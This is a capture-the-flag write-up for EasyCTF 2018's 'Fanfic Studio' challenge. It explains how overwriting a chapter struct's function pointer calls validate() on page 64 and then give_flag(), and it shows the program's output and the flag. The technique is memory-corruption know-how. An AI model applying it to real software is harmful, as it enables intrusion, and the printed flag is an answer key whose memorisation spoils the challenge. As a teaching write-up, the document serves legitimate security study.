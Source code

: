 # EasyCTF_2018: Fanfic Studio

**Category:** Binary Exploitation
**Points:** 350
**Description:**

>Go to `/problems/fanfic` to check out my cool fanfic writing tool. I expect you to send me some steamy fanfics of michael.

## Write-up
We are given two relevant files, [fanfic](fanfic) and [fanfic.c](fanfic.c). This is a relatively easy challenge where the goal is just to exploit the `chapter` structs. Firstly, the exploitable regions include the following,

    struct chapter {
        struct chapter *prev_chapter;
        struct chapter *next_chapter;
        char title[50];
        char content[256];
        void (* print_ch)(int, struct chapter *);
    };

and, 

    while (curr_ch != NULL) {
        curr_ch->print_ch(i, curr_ch);
        curr_ch = curr_ch->next_chapter;
        i++;
    }

In a nutshell, to crack the puzzle, two functions need to be called, `validate()` and `give_flag()`. We can get the addresses of these functions simply through radare2.

    [0x08048620]> afl
    [...]
    0x080487b4    3 22           sym.validate
    0x080487ca    1 37           sym.be_nice
    0x080487ef    9 147          sym.give_flag
    0x08048882   36 1423         main
    [...]

So now that we have our addresses, let's look at `validate()`. From an initial overview, it seems we just need to overwrite the `ans` variable to ensure when XORed with `0xDEADBEEF` gives `0xDEADBEAF`.

    int success = 0xFFFF;
    void validate(int ans) {
        if ((ans ^ 0xDEADBEEF) == 0xDEADBEAF) {
            success = 0xC001B4B3;
        }
    }

Reversing the equation, we get, 

    >>> 0xDEADBEAF ^ 0xDEADBEEF
    64

and since the code responsible for calling the function throws in the page number as the argument,

    i = 1;
    curr_ch = fanfic->first_chapter;
    while (curr_ch != NULL) {
        curr_ch->print_ch(i, curr_ch);
        curr_ch = curr_ch->next_chapter;
        i++;
    }

We just simply need to make this the 64th page. With `validate()` successfully called on the 64th page, we can then call `give_flag()` on the 65th page. Now, just simply pipe the [script](solve.py) to our exploitable fan fiction program!

    user55221@shell:~$ cd /problems/fanfic
    user55221@shell:/problems/fanfic$ ~/solve.py | /problems/fanfic/fanfic
    Please enter the title of your brand new fanfic: You have started writing the fanfic 'A'. Please select an option to get started!
    1. Edit chapter
    2. Delete chapter
    3. Publish fanfic
    > Enter chapter number to edit: Adding new chapter
    Enter chapter title: Enter chapter contents: 1. Edit chapter
    2. Delete chapter
    3. Publish fanfic
    [...]
    > Enter chapter number to edit: Adding new chapter
    Enter chapter title: Enter chapter contents: 1. Edit chapter
    2. Delete chapter
    3. Publish fanfic
    > Enter chapter number to edit: Editing chapter
    Enter new chapter text: 
    1. Edit chapter
    2. Delete chapter
    3. Publish fanfic
    > Enter chapter number to edit: Editing chapter
    Enter new chapter text: 
    1. Edit chapter
    2. Delete chapter
    3. Publish fanfic
    > Fanfic published! Here it is:
    ===============
    A
    ===============

    ---------------
    Chapter 1: A
    ---------------
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

    [...]
    ---------------
    Chapter 62: A
    ---------------
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

    ---------------
    Chapter 63: A
    ---------------
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    easyctf{h34p_expl01ts_ru1n1ng_my_f4nf1cs}

Therefore, the flag is `easyctf{h34p_expl01ts_ru1n1ng_my_f4nf1cs}`.

